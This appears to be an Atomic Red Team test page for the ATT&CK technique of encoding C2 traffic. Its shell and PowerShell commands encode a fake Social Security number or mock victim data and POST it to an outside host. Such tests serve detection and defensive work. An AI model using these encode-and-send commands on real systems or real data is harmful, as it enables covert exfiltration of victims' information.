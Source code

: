 # T1132.001 - Data Encoding: Standard Encoding
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1132/001)
<blockquote>Adversaries may encode data with a standard data encoding system to make the content of command and control traffic more difficult to detect. Command and control (C2) information can be encoded using a standard data encoding system that adheres to existing protocol specifications. Common data encoding schemes include ASCII, Unicode, hexadecimal, Base64, and MIME.(Citation: Wikipedia Binary-to-text Encoding)(Citation: Wikipedia Character Encoding) Some data encoding systems may also result in data compression, such as gzip.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Base64 Encoded data.](#atomic-test-1---base64-encoded-data)

- [Atomic Test #2 - Base64 Encoded data (freebsd)](#atomic-test-2---base64-encoded-data-freebsd)

- [Atomic Test #3 - XOR Encoded data.](#atomic-test-3---xor-encoded-data)


<br/>

## Atomic Test #1 - Base64 Encoded data.
Utilizing a common technique for posting base64 encoded data.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 1164f70f-9a88-4dff-b9ff-dc70e7bf0c25





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | url | redcanary.com|
| base64_data | Encoded data to post using fake Social Security number 111-11-1111. | string | MTExLTExLTExMTE=|


#### Attack Commands: Run with `sh`! 


```sh
echo -n 111-11-1111 | base64
curl -XPOST #{base64_data}.#{destination_url}
```






<br/>
<br/>

## Atomic Test #2 - Base64 Encoded data (freebsd)
Utilizing a common technique for posting base64 encoded data.

**Supported Platforms:** Freebsd


**auto_generated_guid:** 2d97c626-7652-449e-a986-b02d9051c298





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | url | redcanary.com|
| base64_data | Encoded data to post using fake Social Security number 111-11-1111. | string | MTExLTExLTExMTE=|


#### Attack Commands: Run with `sh`! 


```sh
echo -n 111-11-1111 | b64encode -r -
curl -XPOST #{base64_data}.#{destination_url}
```




#### Dependencies:  Run with `sh`!
##### Description: Requires curl
##### Check Prereq Commands:
```sh
if [ -x "$(command -v curl)" ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```sh
pkg install -y curl
```




<br/>
<br/>

## Atomic Test #3 - XOR Encoded data.
XOR encodes the data with a XOR key.
Reference - https://gist.github.com/loadenmb/8254cee0f0287b896a05dcdc8a30042f

**Supported Platforms:** Windows


**auto_generated_guid:** c3ed6d2a-e3ad-400d-ad78-bbfdbfeacc08





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | url | example.com|
| plaintext | Plain text mimicking victim data sent to C2 server. | string | Path&#92;n----&#92;nC:&#92;Users&#92;victim|
| key | XOR key used for encoding the plaintext. | string | abcdefghijklmnopqrstuvwxyz123456|


#### Attack Commands: Run with `powershell`! 


```powershell
$plaintext = ([system.Text.Encoding]::UTF8.getBytes("#{plaintext}"))
$key = "#{key}"
$cyphertext =  @();
for ($i = 0; $i -lt $plaintext.Count; $i++) {
 $cyphertext += $plaintext[$i] -bxor $key[$i % $key.Length];
}
$cyphertext = [system.Text.Encoding]::UTF8.getString($cyphertext)
[System.Net.ServicePointManager]::Expect100Continue = $false
Invoke-WebRequest -Uri #{destination_url} -Method POST -Body $cyphertext -DisableKeepAlive
```






<br/>
